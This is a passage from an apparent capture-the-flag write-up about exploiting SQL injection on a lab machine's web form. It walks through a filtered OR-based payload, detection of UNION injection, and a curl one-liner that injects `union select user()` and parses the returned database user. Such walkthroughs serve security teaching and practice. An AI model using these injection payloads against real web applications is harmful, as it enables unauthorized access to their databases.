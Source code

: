 In theory, I could send `player=df' or 1=1;-- -` and get rows back, but it
doesn’t work:

![image-20211119111413861](https://0xdfimages.gitlab.io/img/image-20211119111413861.png)

It also doesn’t include the challenge link, which lines up with other cases
where I’m being filtered. Just having “ or “ in the string triggers the
filtering/WAF:

![image-20211119111508530](https://0xdfimages.gitlab.io/img/image-20211119111508530.png)

### UNION Injection

#### Detection

In the example above, not only does it return data showing I successfully
manipulated the SQL query, but it also displays back the name “ippsec”, not
“ippsec’;– -“. That means what’s being displayed back when the username is
found is the username from the database, not the username from the input
(though from the developer’s point of view, those two would be the same).

That means I can do a UNION injection to read data:

![image-20211119111707394](https://0xdfimages.gitlab.io/img/image-20211119111707394.png)

More interestingly:

![image-20211119111734609](https://0xdfimages.gitlab.io/img/image-20211119111734609.png)

#### One Liner

I’ll use this Bash one liner to query the DB:

    
    
    curl -s -X POST http://10.10.11.128 -d "player=' union select user();-- -" 
      | sed 's/Sorry, //' 
      | sed 's/ you are not eligible due to already qualifying.//'
    echo
    

This will get the result I’m looking for and remove the constant data that I
don’t want. The extra `echo` is just to put a newline on the end.

    
    
    oxdf@parrot$ curl -s -X POST http://10.10.11.128 -d "player=' union select user();-- -" | sed 's/Sorry, //' | sed 's/ you are not eligible due to already qualifying.//'; echo
    uhc@localhost
    

#### DB Enumeration

There are five databases on the host, but really only `november` is
interesting:

